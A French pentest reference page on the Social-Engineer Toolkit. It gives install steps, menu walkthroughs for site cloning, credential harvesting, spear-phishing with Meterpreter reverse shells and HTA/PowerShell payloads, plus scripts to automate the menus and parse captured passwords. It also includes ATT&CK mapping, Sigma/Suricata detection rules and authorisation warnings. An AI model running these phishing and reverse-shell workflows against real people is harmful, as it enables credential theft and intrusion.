


# SET (Social-Engineer Toolkit) — Le couteau suisse de l'ingénierie sociale
> [!info] **En 1 phrase**
> Le Social-Engineer Toolkit (SET) est la boîte à outils open source de référence pour automatiser les attaques de phishing, les vecteurs d'attaque par media et les scénarios d'ingénierie sociale à grande échelle.
---

## Overview
| Champ | Valeur |
|---|---|
| Nom complet | Social-Engineer Toolkit (SET) |
| Description | Framework Python d'ingénierie sociale : spear-phishing par email, clonage de sites web, credential harvesting, génération de payloads, mass mailer, vecteurs USB/QRCode/PowerShell/HTA |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Phishing, Credential Harvesting, Payload Generation |
| Fonction principale | Automatiser les scénarios d'ingénierie sociale (phishing, clonage, payloads) |
| Type d'outil | Framework interactif CLI (menu textuel) |
| Licence | BSD 3-Clause |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python (3.11 → 3.13 pour SET 8.1.3) |
| Développeur / organisation | TrustedSec, LLC — créé et maintenu par Dave Kennedy (« ReL1K ») |
| Projet officiel | The Social-Engineer Toolkit |
| Dépôt officiel | https://github.com/trustedsec/social-engineer-toolkit |
| Documentation officielle | https://github.com/trustedsec/social-engineer-toolkit#readme (+ `readme/User_Manual.pdf` dans le dépôt) |
| Date de création | 2010 (développé par Dave Kennedy pour le cours « The Social Engineering Framework ») |
| État du projet | actif / maintenu |
| Dernière version connue | 8.1.3 (configuration interne `CONFIG_VERSION=7.7.9`) |
| Systèmes compatibles | Linux, macOS (expérimental), Windows via WSL/WSL2 |

> [!note] Pour vérifier / compléter
> La version est confirmée par le README officiel (« SET 8.1.3 targets Python 3.11 through Python 3.13 »). La baseline de configuration reste marquée `CONFIG_VERSION=7.7.9` : c'est la version du schéma de config, pas la version du framework.
---

## Concept
SET est le framework d'ingénierie sociale le plus utilisé en pentest : développé par Dave Kennedy (TrustedSec), il regroupe dans un **menu interactif** une cinquantaine de scénarios prêts à l'emploi — clonage de sites web pour du **credential harvesting**, **emails de spear-phishing** (pièce jointe ou lien), **payloads de reverse shell** via Metasploit, **médias infectés** (fichiers, PDF, ISO), vecteurs **PowerShell/HTA**, **QRCode, Arduino, point d'accès Wi-Fi**, et campagnes de **mass mailer** via SMTP ou Sendmail.

Dans un engagement, SET se place en phase **Initial Access / Social Engineering** : il cible le maillon humain, pas la machine. Son point fort est la rapidité (un site cloné est en ligne en moins d'une minute) et l'intégration native à Metasploit pour la génération de payloads et le listener. Son point faible : c'est un outil très connu, massivement signé par les antivirus, et entièrement piloté par menu (difficile à automatiser proprement). Né en 2010, SET a été la première boîte à outils grand public à rendre l'ingénierie sociale accessible ; les versions 7.x puis 8.x ont modernisé le code (Python 3, venv, suppression des vecteurs Java Applet obsolètes), mais la logique des menus « 1 → 2 → 3 » est restée stable.


---

## Concepts fondamentaux
| Concept | Explication |
|---|---|
| Ingénierie sociale | Manipulation psychologique pour obtenir une information ou un accès : prétexte, appât (baiting), usurpation, urgence, autorité |
| Phishing / spear-phishing | Email générique vs email ciblé et personnalisé (reconnaissance préalable) ; le spear-phishing est nettement plus efficace |
| Credential harvesting | Fausse page de connexion qui capture identifiants + mots de passe saisis, puis les journalise |
| Site Cloner | Télécharge un site réel (HTML/CSS/JS/liens) et le re-sert depuis la machine de l'attaquant en réécrivant les liens |
| Payload / reverse shell | Code exécutable ou script (Meterpreter, PowerShell, HTA) qui établit une connexion sortante vers un listener |
| Listener / handler | Serveur qui attend la connexion sortante du payload (port d'écoute sur la machine de l'attaquant) |
| Mass Mailer | Envoi massif d'emails via un relais SMTP ou Sendmail ; la délivrabilité dépend de SPF/DKIM/DMARC |
| 2FA / MFA | Deuxième facteur d'authentification ; un harvester simple capture le mot de passe mais pas le second facteur (contournable en temps réel par Evilginx2/Modlishka) |
| Obfuscation / encodage | Transformer le payload (base64, encodage variable, polymorphisme) pour échapper aux signatures AV/EDR |
| Menus numérotés | SET est piloté par des menus ; les numéros changent entre versions — toujours lire l'écran avant de valider |
---

## Installation
### Debian / Ubuntu / Kali Linux / WSL
```bash
sudo apt update && sudo apt install -y set
```
### Compilation depuis les sources (recommandé pour la dernière version)
```bash
git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
cd setoolkit
python3 -m venv .venv
source .venv/bin/activate
python -m pip install --upgrade pip
python -m pip install -e .
```
### Installation « legacy » (système) depuis les sources
```bash
sudo python3 setup.py
# Copie SET dans /usr/local/share/setoolkit,
# écrit /etc/setoolkit/set.config et crée /usr/local/bin/setoolkit
```
### macOS
```bash
# Expérimental : SET 8.x tourne sur macOS mais sans support officiel
brew install python3 git
git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
cd setoolkit && python3 -m venv .venv && source .venv/bin/activate
python -m pip install -e .
```
### Windows
```powershell
# Pas de support natif : utiliser WSL/WSL2 avec Kali (voir Debian/Ubuntu ci-dessus)
# wsl --install -d kali-linux
```
### Docker
```bash
# Pas d'image officielle TrustedSec ; conteneuriser un build source :
docker build -t setoolkit .
docker run -it --rm -p 8080:8080 setoolkit
```

> [!warning] Prérequis & problèmes potentiels
> - SET 8.1.3 cible **Python 3.11 à 3.13** ; une version plus récente ou plus ancienne peut casser la compilation.
> - La plupart des vecteurs (payloads, harvester, clonage) nécessitent **root** : lancer avec `sudo`.
> - La génération de payloads dépend de **Metasploit** installé (`msfconsole`) ; configurer `METASPLOIT_PATH`.
> - Sur Kali, `sudo apt install set` installe un paquet parfois en retard sur le GitHub officiel.
---

## Configuration
SET se configure via `/etc/setoolkit/set.config` (copié depuis `src/core/config.baseline` au premier lancement). L'utilitaire vérifie `CONFIG_VERSION` au démarrage et régénère le fichier avec un backup `.bak` si nécessaire. Les données capturées (logs harvester, templates) sont stockées dans le répertoire utilisateur (`~/.set/`).

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `CONFIG_VERSION` | Version du schéma de config | `7.7.9` | Régénère `set.config` (backup `.bak`) | `/etc/setoolkit/set.config` |
| `APACHE_SERVER` | Sert les pages clonées via Apache au lieu du serveur Python intégré | ON / OFF | Compatibilité des pages riches | `APACHE_SERVER=OFF` |
| `APACHE_DIRECTORY` | Racine web d'Apache pour les clones | Chemin (défaut `/var/www/html`) | Emplacement des fichiers servis | `/var/www/html` |
| `HARVESTER_DOMAIN` | Domaine/IP lié par le credential harvester | `10.10.20.15` / `example.com` | Réécriture des liens de la page clonée | `10.10.20.15` |
| `EMAIL_OPEN_RELAY` | Config du relais SMTP pour le mailer | ON / OFF | Délivrabilité des emails | `OFF` |
| `METASPLOIT_PATH` | Chemin de Metasploit pour la génération de payloads | `/usr/share/metasploit-framework` | Payloads Meterpreter disponibles | `/usr/share/metasploit-framework` |
| `USER_AGENT` | User-Agent utilisé au clonage des sites | Chaîne UA navigateur | Fidélité du rendu du clone | `Mozilla/5.0 (compatible; SET)` |
| `AUTOMATIC_IP_DETECT` | Détection automatique de l'IP du serveur d'écoute | ON / OFF | Évite la saisie manuelle de l'IP | `ON` |

> [!note] À vérifier
> Les noms de clés du `set.config` varient légèrement entre les versions et les distributions. Confirmer avec `grep -iE "apache|harvester|metasploit" /etc/setoolkit/set.config`.
---

## Architecture interne
SET est un paquet Python organisé autour d'un **launcher** et d'un **noyau** de modules :

- **`setoolkit`** : script d'entrée (affiché par `sudo setoolkit`) ; vérifie root, `CONFIG_VERSION`, lance le menu principal.
- **`src/core/`** : noyau — gestion du menu (`menu.py`), des bases communes (`base.py`), de la configuration (`config.py` + `config.baseline`), de la génération de payloads (`payloads.py`), de la mise à jour.
- **`src/set/`** : les modules d'attaque — `webattack/` (cloneur, harvester, tabnabbing, HTA…), `phishing/` (emails, templates), `payloadgen`, `massmailer`, `usb` (Arduino), `powershell`, `qrcode`.
- **`src/templates/`** : templates d'emails de phishing et templates de sites pour le harvester.
- **`readme/`** : documentation, `User_Manual.pdf`, `CHANGELOG`, licence.

À l'exécution d'un scénario type (Site Cloner) : SET demande l'IP/hostname du serveur d'écoute (ou la détecte avec `AUTOMATIC_IP_DETECT`), télécharge la page cible avec le `USER_AGENT` configuré, réécrit les liens pour pointer vers l'attaquant, puis lance un serveur web (Apache si `APACHE_SERVER=ON`, sinon serveur HTTP Python intégré). Le harvester journalise chaque soumission de formulaire (user/password) dans `~/.set/` et l'affiche dans le terminal. Pour la génération de payloads, SET pilote Metasploit (`msfconsole` en sous-processus) et peut configurer automatiquement le listener ; les vecteurs PowerShell/HTA encodent la commande en base64 ou l'embarquent dans un fichier HTA exécuté par `mshta.exe`.


---

## Commandes
### Commandes principales
```bash
sudo setoolkit
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `sudo setoolkit` | Lancer le menu interactif principal | Menu Social-Engineering / Fast-Track / Modules |
| `sudo ./setoolkit` | Lancer depuis un checkout source (clone Git) | Idem |
| `setoolkit` (menu `4`) | Mettre à jour SET | Télécharge la dernière version |
| `setoolkit` (menu `5`) | Reconfigurer SET (`set.config`) | Menu de configuration |
### Vecteurs d'attaque — menu « Social-Engineering Attacks » (1-9)
| # | Vecteur | Description | Cible type |
|---|---|---|---|
| 1 | Spear-Phishing Attack Vectors | Email ciblé avec payload en pièce jointe (PDF, EXE, HTA…) ou template | Utilisateur individuel |
| 2 | Website Attack Vectors | Clonage de site, credential harvester, tabnabbing, web jacking, HTA | Tout utilisateur web |
| 3 | Infectious Media Generator | Génération d'un fichier/ISO/PDF piégé avec payload | Media physique ou pièce jointe |
| 4 | Create a Payload and Listener | Reverse shell Meterpreter + listener automatique | Machine cible |
| 5 | Mass Mailer Attack | Campagne d'emails massifs via SMTP ou Sendmail | Base d'adresses |
| 6 | Arduino-Based Attack Vector | Payload injecté via une carte Arduino (HID) | USB physique |
| 7 | Wireless Access Point Attack Vector | Point d'accès malveillant (nécessite un adaptateur Wi-Fi) | Connexion Wi-Fi |
| 8 | QRCode Generator Attack Vector | Génération d'un QR code malveillant | Lecteurs QR / mobile |
| 9 | Powershell Attack Vectors | Payload PowerShell (reverse shell, encodé base64) | Windows |

> [!note] À vérifier
> La numérotation des sous-menus (harvester, payloads) évolue entre les versions : lire les options affichées avant de valider.
---

## Options et flags
SET étant un menu textuel, il n'expose pas d'options CLI standard. Les « options » sont des choix de navigation dans les menus.

| Option / menu | Description | Exemple | Niveau |
|---|---|---|---|
| `1` (menu principal) | Social-Engineering Attacks | `1` → 9 vecteurs | Basic |
| `2` → `3` → `2` | Website Attack Vectors → Credential Harvester → Site Cloner | clone de `http://login.example.com` | Basic |
| `2` → `3` → `1` | Harvester avec template pré-construit (Google, LinkedIn…) | template « Google » | Basic |
| `1` → `1` | Spear-Phishing → email à une adresse unique | cible `jdoe@example.com` | Intermediate |
| `5` → `2` | Mass Mailer → campagne depuis une liste d'adresses | `victims.txt` | Intermediate |
| `9` | Powershell Attack Vectors (reverse shell encodé) | payload PS via `mshta`/`rundll32` | Advanced |
| `2` → `4` | Tabnabbing Attack Method (on-close rewrite) | tab kidnapping | Advanced |
| `8` | QRCode Generator Attack Vector | QR → URL de phishing | Advanced |
| `6` | Arduino-Based Attack Vector (HID) | clavier USB piégé | Expert |

> [!tip] Options les plus utiles au quotidien
> `2 → 3 → 2` (Site Cloner) pour un credential harvester en 30 secondes ; `4` (Create a Payload and Listener) pour un reverse shell en 1 minute ; `1 → 1 → 2` (email single address) pour un spear-phishing rapide. Toujours vérifier les numéros affichés à l'écran.
---

## Exemples pratiques
### Beginner
```bash
# Credential harvesting en clonant un site
sudo setoolkit
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner
# Saisir l'IP d'écoute (ex : 10.10.20.15)
# Saisir l'URL à cloner (ex : http://login.example.com)
```
Résultat : la page clonée est servie sur `http://10.10.20.15` ; les identifiants saisis apparaissent dans le terminal et dans `~/.set/`.

### Intermediate
```bash
# Spear-phishing vers une adresse unique avec template
sudo setoolkit
# 1) Spear-Phishing Attack Vectors
# 1) Perform a Mass Email Attack → 1) Email Attack Single Email Address
# 1) Template pré-construit (ou 6 pour un template custom)
# 2) Payload Meterpreter → reverse_tcp → IP + port
# Format du fichier (ex : 1 = PDF) puis 1) Mailer (SMTP) ou Sendmail
```
### Advanced
```bash
# Payload PowerShell (vecteur 9) — reverse shell encodé
sudo setoolkit
# 9) Powershell Attack Vectors
# 1) Powershell Alphanumeric Shellcode Injector
# 2) reverse_tcp → IP + port
# Le payload peut être servi en HTTP pour un one-liner : powershell -e <base64>
```
### Expert
```bash
# Tabnabbing : la page de l'onglet est remplacée pendant la navigation
sudo setoolkit
# 2) Website Attack Vectors
# 4) Tabnabbing Attack Method
# 2) Site Cloner → http://mail.example.com
# 3) Harvester (le harvester est utilisé en fond pendant le tabnabbing)
```
---

## Workflow complet (scénario pas à pas)
1. **Préparer l'infrastructure** — machine d'écoute avec IP publique/NAT redirigée vers `10.10.20.15`, port 80/443 ouvert, Metasploit installé.
   ```bash
   sudo setoolkit
   ```
2. **Lancer le credential harvester** — choisir `2` (Website Attack Vectors) puis `3` (Credential Harvester Attack Method).
3. **Cloner la page cible** — choisir `2` (Site Cloner), renseigner l'IP `10.10.20.15` et l'URL `http://login.example.com`.
4. **Vérifier la page** — depuis un second terminal :
   ```bash
   curl -I http://10.10.20.15
   # Attendu : HTTP 200 avec un HTML proche de la page d'origine
   ```
5. **Diffuser le lien** — envoyer `http://10.10.20.15` par email simulé ou message (en lab uniquement).
6. **Collecter les identifiants** — chaque soumission apparaît dans le terminal ; les logs sont dans `~/.set/`.
7. **Nettoyer** — `Ctrl+C` pour arrêter le serveur, puis supprimer les logs sensibles.
   ```bash
   rm -rf ~/.set
   ```

---

## Scénarios avancés
### Scénario 1 : campagne de spear-phishing complète
Planification d'une campagne avec phases et livrables :

| Phase | Action | Outil / vecteur |
|---|---|---|
| Reconnaissance | Collecter noms, adresses email, organigramme | theHarvester, Shodan, OSINT |
| Prétexte | Choisir un prétexte crédible (recrutement, facture, DPO) | Template custom (menu 6) |
| Infrastructure | Domaine de phishing, certificat, IP `10.10.20.15` | Site Cloner + harvester |
| Envoi | Email ciblé à `jdoe@example.com` | SET vecteur 1 (Mailer) |
| Suivi | Mesurer clics / soumissions | Logs `~/.set/` + web server logs |
| Exploitation | Réutiliser les creds volés sur le portail légitime | Session hijack, Evil-WinRM |

```bash
sudo setoolkit
# 1 → 1 → 1 (email single address, template pré-construit)
# 2 → payload Meterpreter → reverse_tcp → 10.10.20.15:4444
# 5 → reverse_tcp
# format du fichier → 1 (PDF) ou 5 (EXE)
# 1 → Mailer (SMTP intégré) ou Sendmail
```
> L'envoi via un SMTP classique échouera si le domaine n'est pas authentifié : SPF/DKIM/DMARC bloquent presque tout. Pour un vrai engagement, utiliser un domaine de phishing avec SPF/DKIM configurés, ou un template Gmail/Sendmail.

### Scénario 2 : attaque HTA / PowerShell pour exécution de code
```bash
sudo setoolkit
# 1 → Spear-Phishing Attack Vectors
# 1 → Email Attack Single Email Address
# 9 → HTA file (contrôle total)
# 2 → attacker generates payload (Meterpreter)
# 5 → reverse_tcp → 10.10.20.15 + port
# Le HTA s'exécute via mshta.exe sur Windows (T1218.005)
```
### Scénario 3 : vecteur USB / média infecté
```bash
sudo setoolkit
# 3) Infectious Media Generator
# 2) Standard Metasploit Executable (ou 1 = Standard .EXE)
# 5) reverse_tcp → 10.10.20.15:4444
# Format du payload final : 3 (ISO) pour un ISO AutoRun
```
À combiner avec un scénario physique : USB posé dans un parking (social engineering) → [[Outil - USB Rubber Ducky]] ou [[Outil - Bash Bunny]] pour automatiser la frappe, ou [[Outil - WiFi Pineapple]] pour le réseau.

### Scénario 4 : QRCode + phishing via service (T1566.003)
```bash
sudo setoolkit
# 8) QRCode Generator Attack Vector
# URL malveillante → http://10.10.20.15 (page clonée)
# Le QR code est affiché/généré ; l'image peut être imprimée ou envoyée
```
Le QR code pointe vers le harvester (vecteur 2). L'utilisateur scanne avec son mobile → page clonée → creds capturés. Variante « phishing via service » : partager le lien via une messagerie usurpée (T1566.003).

---

## Cybersecurity use cases
| Phase | Utilisation |
|---|---|
| Reconnaissance | Identifier les cibles humaines et leurs emails (via theHarvester/OSINT) avant de préparer le prétexte |
| Vulnérabilité (humaine) | Mesurer la susceptibilité des utilisateurs au phishing et à l'ingénierie sociale |
| Exploitation | Credential harvesting (T1566.002), payloads reverse shell via email/media (T1566.001, T1204.002) |
| Post-exploitation | Réutilisation des identifiants volés, sessions Meterpreter, pivots ([[Outil - Evil-WinRM]] pour Windows) |
| Programmes de sensibilisation | Campagnes de phishing simulées contrôlées, restitutions pédagogiques |
| Red team / purple team | Validation des contrôles humains, tests de détection SOC/EDR |
---

## MITRE ATT&CK
| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | Emails avec pièce jointe (PDF/EXE/HTA) générés par SET | Analyse sandbox pièces jointes, AV/EDR, règles mail | Filtrage antispam, sandboxing, awareness |
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Liens vers des pages clonées / harvester | Détection d'URL malveillantes, proxy web | Blocage URL, MFA, awareness |
| Initial Access | Phishing: Spearphishing via Service | T1566.003 | Diffusion via messagerie tierce / QR code | Corrélation des messages entrants | MFA, politiques de messagerie |
| Execution | User Execution: Malicious File | T1204.002 | Victime exécute le payload joint (PDF/EXE/ISO) | EDR, application control (AppLocker) | Sandboxing, signatures, restriction |
| Execution | User Execution: Malicious Link | T1204.001 | Victime clique sur le lien de phishing | Proxy web, DLP sortant | Filtrage web, awareness |
| Execution | User Execution | T1204 | Vecteur 4 (Payload and Listener) repose sur l'exécution | EDR (cmdline, process) | Application control |
| Defense Evasion | System Binary Proxy Execution: Mshta | T1218.005 | Vecteur HTA exécuté par `mshta.exe` | EDR (mshta.exe anormal) | Restreindre mshta.exe/wscript.exe |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | Payloads Meterpreter/PowerShell sur HTTP/HTTPS | Inspection TLS, monitoring flux | Filtrage sortant, egress |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> SET couvre principalement l'Initial Access par phishing (T1566.*) et l'Execution côté utilisateur (T1204.*).
---

## Defensive Security
### Signes observables
| Indicateur | Détail |
|---|---|
| Email demandant de cliquer ou d'ouvrir une pièce jointe avec urgence | Vérifier l'expéditeur (SPF/DKIM/DMARC) avant toute action |
| Page de login clonée avec une URL/domaine différent de l'original | Contrôler l'URL exacte et le certificat TLS |
| Téléchargement de fichiers Office/HTA/ISO depuis le web | Restreindre `mshta.exe`, `wscript.exe`, `rundll32.exe` (AppLocker/WDAC) |
| Connexions sortantes vers une IP inconnue sur un port inhabituel | `netstat -ano` / EDR : reverse shell (Meterpreter) |
| Processus `mshta`, `powershell -enc`, `regsvr32` anormaux | Alertes EDR sur les binaires proxy signés |
| Soumission de credentials sur une page HTTP (pas de HTTPS) | Monitoring des formulaires non chiffrés |
### Règles de détection (Sigma / Suricata / Snort / YARA)
```yaml
# Exemple Sigma — Linux : exécution des outils d'ingénierie sociale
title: SET / Social Engineering Tool Execution
id: 11111111-2222-3333-4444-555555555555
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/setoolkit'
            - '/msfconsole'
            - '/sendmail'
    condition: selection
falsepositives:
    - Legitimate penetration testing activities
level: low
```

```bash
# Exemple Suricata — POST HTTP vers une IP brute contenant "password"
alert http any any -> any any (msg:"SET harvester POST suspected"; flow:to_server,established; content:"POST"; http_method; content:"password"; http_client_body; classtype:web-application-attack; sid:9500101; rev:1;)
```
---

## Automatisation
SET étant interactif, l'automatisation passe par le **pipe de menus** (fragile) ou un **driver expect/pexpect** :

```bash
# Bash — pipe des choix de menus (numérotation sensible aux versions)
printf '2\n3\n2\n10.10.20.15\nhttp://login.example.com\n' | sudo setoolkit
```

```python
# Python — piloter le menu avec pexpect pour un lancement reproductible
import pexpect
child = pexpect.spawn('sudo setoolkit')
child.expect(r'\[.*\]')
child.sendline('2')        # Website Attack Vectors
child.expect(r'\[.*\]')
child.sendline('3')        # Credential Harvester Attack Method
child.sendline('2')        # Site Cloner
child.sendline('10.10.20.15')
child.sendline('http://login.example.com')
```

Pour les campagnes sérieuses, préférer des outils non interactifs : [[Outil - GoPhish]] (campagnes, templates, tracking) ou [[Outil - Evilginx2]] (reverse proxy 2FA) avec des scripts Python pour la génération de domaines de phishing et l'envoi SMTP.

---

## Output et parsing
Les sorties principales de SET : **terminal interactif** (logs en temps réel), **fichiers de log** dans `~/.set/`, **sortie Metasploit** (lors de la génération de payloads) et **logs serveur web** (requêtes HTTP de la page clonée).

```bash
# Lister les fichiers de log de SET
ls -la ~/.set/
# Suivre les identifiants capturés en temps réel
tail -f ~/.set/harvester_*.log
# Extraire les lignes email/password
grep -iE "email|username|password" ~/.set/*.log
```

```python
# Python — parsing des credentials capturés dans les logs du harvester
import re
log = open('/root/.set/harvester.log', encoding='utf-8', errors='ignore').read()
for m in re.findall(r'(?:email|user(?:name)?):\s*(\S+)\s+pass(?:word)?:\s*(\S+)', log, re.I):
    print(f"email={m[0]} password={m[1]}")
```

> [!note] À vérifier
> Le nom exact des fichiers de log (`harvester.log`, `harvester_<date>.txt`…) varie selon la version et le vecteur. Vérifier avec `ls -la ~/.set/` après une capture.
---

## Intégrations
```text
Recon (Nmap / theHarvester) → SET (phishing / harvester) → Metasploit (listener) → post-exploitation (Evil-WinRM) → SIEM
```

- [[Tools| Outils]] global
- [[Outil - Metasploit]] — génération de payloads et listener natif (vecteurs 1, 3, 4, 9)
- [[Outil - GoPhish]] — alternative/compagnon pour les campagnes de phishing structurées
- [[Outil - Evilginx2]] — phishing de 2FA en temps réel (reverse proxy) ; SET sert la première page
- [[Outil - SocialFish]] · [[Outil - Weeman]] — harvester légers pour démonstrations rapides
- [[Outil - Modlishka]] · [[Outil - CredSniper]] — reverse proxy / cloning alternatifs
- [[Outil - BeEF]] — hook du navigateur victime après le clic (XSS sur la page clonée)
- [[Outil - USB Rubber Ducky]] · [[Outil - Bash Bunny]] · [[Outil - WiFi Pineapple]] — vecteurs physiques
- [[Outil - Evil-WinRM]] — post-exploitation des sessions Windows obtenues
- [[Outil - Nmap]] · [[Outil - theHarvester]] — reconnaissance avant prétexte
- [[07 - Wireless, MITM & Social Engineering| Wireless, MITM & Social Engineering]]

---

## Alternatives
| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - GoPhish]] | Campagnes structurées, tracking, templates, multi-envoi | Pas de génération de payloads | Programmes de sensibilisation |
| [[Outil - Evilginx2]] | Reverse proxy : bypass 2FA/OTP en temps réel | Configuration avancée, maintenance | Red team, phishing 2FA |
| [[Outil - Modlishka]] | Reverse proxy massif, réécriture HTTPS dynamique | Complexe, maintenance réduite | Campagnes à grande échelle |
| [[Outil - CredSniper]] | Phishing 2FA via reverse proxy + Ngrok | Moins documenté | Démo rapide |
| [[Outil - SocialFish]] | Très simple, tunneling intégré | Limité aux pages statiques simples | Lab / démo |
| [[Outil - Weeman]] | Ultra-léger, HTTP seulement | HTTP seulement, Python 2, abandonné | Pédagogie |
| [[Outil - King-Phisher]] | Phishing complet avec serveur central | Interface complexe, plus ancien | Campagnes contrôlées |

> **Quand utiliser GoPhish plutôt que SET ?** Dès qu'il faut une campagne mesurable (taux d'ouverture, de clic, de saisie) avec des rapports exploitables par le client. SET excelle pour la démonstration technique rapide et la génération de payloads, pas pour la gestion de campagnes.
---

## Performance
- **Lancement** : quasi instantané (menu Python) ; la génération d'un clone prend quelques secondes à une minute selon la taille du site cible.
- **Serveur web** : serveur HTTP Python intégré, limité à quelques centaines de connexions simultanées ; Apache (`APACHE_SERVER=ON`) meilleur pour les gros volumes.
- **Mass mailer** : débit limité par le relais SMTP et les limites anti-spam (rate limiting). Comptez en minutes pour des centaines d'emails, avec un risque élevé de blacklist.
- **Génération de payloads** : dépend du démarrage de Metasploit (quelques secondes) ; l'encodage des payloads ajoute un coût CPU négligeable.
- **Automatisation** : SET est monothread et interactif ; le pipe de menus fonctionne mais est fragile.

> [!note] À vérifier
> Chiffres donnés à titre indicatif d'après les usages en lab ; aucune benchmark officielle n'est publiée par TrustedSec.
---

## Troubleshooting
### Common problems
#### Problème : « SET is not running as root » / « must be run as root »
- **Cause** : les vecteurs (payloads, harvester, clonage) nécessitent des droits élevés.
- **Solution** : lancer avec `sudo setoolkit` (ou `sudo ./setoolkit` depuis le checkout).
- **Vérification** : `id -u` doit retourner `0`.

#### Problème : « Sendmail not found » à l'envoi d'emails
- **Cause** : SET tente d'utiliser `sendmail` pour le mailer.
- **Solution** : installer sendmail/postfix (`sudo apt install -y postfix`) ou utiliser le **Mailer SMTP** (option `1`) avec un relais authentifié.
- **Vérification** : `which sendmail` doit retourner un chemin.

#### Problème : le serveur web de SET ne démarre pas (port déjà utilisé)
- **Cause** : Apache ou un autre service écoute déjà sur le port demandé (80/443/8080).
- **Solution** : arrêter le service concurrent (`sudo systemctl stop apache2`) ou choisir un autre port ; vérifier `APACHE_SERVER` dans `set.config`.
- **Vérification** : `sudo ss -ltnp | grep -E ':80|:443'`.

#### Problème : « Metasploit not found » / payload muet
- **Cause** : `METASPLOIT_PATH` incorrect ou Metasploit non installé.
- **Solution** : installer Metasploit (`sudo apt install -y metasploit-framework`) et vérifier `METASPLOIT_PATH` dans `/etc/setoolkit/set.config`.
- **Vérification** : `which msfconsole` puis `msfconsole -x "version"`.

#### Problème : les payloads sont détectés par l'AV/EDR
- **Cause** : payloads SET largement signés par les antivirus.
- **Solution** : générer vos propres payloads (compile, obfuscation, code signing) ; utiliser des vecteurs PowerShell encodés ou HTA personnalisés ; en lab, désactiver l'AV.
- **Vérification** : scanner le payload sur VirusTotal ou en sandbox (jamais sur la cible réelle sans autorisation).

---

## Sécurité de l'outil
- **Root requis** : SET doit tourner en root ; ne jamais l'exécuter depuis un compte de service ni sur une machine de production.
- **Données sensibles** : les identifiants capturés sont stockés **en clair** dans `~/.set/` et affichés dans le terminal — nettoyer après usage.
- **Écoute réseau** : le harvester expose un serveur HTTP ; le protéger par firewall et ne l'exposer qu'au réseau d'engagement.
- **Payloads** : la génération via Metasploit peut laisser des fichiers malveillants sur disque — supprimer les payloads après exploitation.
- **Télémétrie** : pas de télémétrie connue, mais les mises à jour téléchargent le code GitHub ; vérifier l'intégrité des sources.
- **Responsabilité légale** : SET est un outil d'attaque ; l'utiliser uniquement avec autorisation écrite (scope), jamais contre des tiers.

---

## Limitations
- **Menu interactif uniquement** : aucune API officielle, difficile à automatiser ; les numéros de menu changent entre versions.
- **Détection AV/EDR** : les payloads par défaut (Meterpreter, HTA, PowerShell) sont massivement signés.
- **Délivrabilité email** : sans SPF/DKIM/DMARC, les emails de phishing finissent en spam ; SET ne fait pas de l'email spoofing fiable moderne.
- **2FA** : le harvester classique ne capture pas le second facteur (contournable uniquement avec Evilginx2/Modlishka).
- **Java Applet / Flash supprimés** : les vecteurs historiques (Java Applet, SMS spoofing, Full Screen) ne sont plus supportés dans les versions récentes.
- **Windows** : pas de support natif, WSL/WSL2 obligatoire.
- **Fidélité du clone** : les sites modernes (SPA, JavaScript lourd) sont mal clonés.

---

## Cheatsheet
```bash
# Démarrer SET
sudo setoolkit

# Credential Harvester — Site Cloner
# 2) Website Attack Vectors → 3) Credential Harvester → 2) Site Cloner
#   IP d'écoute : 10.10.20.15
#   URL à cloner : http://login.example.com

# Credential Harvester — Template pré-construit
# 2) Website Attack Vectors → 3) Credential Harvester → 1) Web Templates

# Spear-phishing — email unique avec payload
# 1) Spear-Phishing → 1) Mass Email Attack → 1) Single Email Address
#   template → payload Meterpreter reverse_tcp → 10.10.20.15:4444
#   format PDF/EXE → 1) Mailer (SMTP)

# Payload + Listener en 1 minute
# 4) Create a Payload and Listener → 2) Windows Reverse_TCP Meterpreter

# Mass Mailer
# 5) Mass Mailer Attack → 1) Email Single Address / 2) Mass

# Powershell Attack Vector
# 9) Powershell Attack Vectors → 1) Alphanumeric Shellcode Injector → 2) reverse_tcp

# QRCode Generator
# 8) QRCode Generator Attack Vector → URL http://10.10.20.15

# Nettoyage des logs
rm -rf ~/.set
```
---

## Quick reference
| | |
|---|---|
| **À quoi sert-il ?** | Automatiser l'ingénierie sociale : phishing, clonage de sites, credential harvesting, génération de payloads |
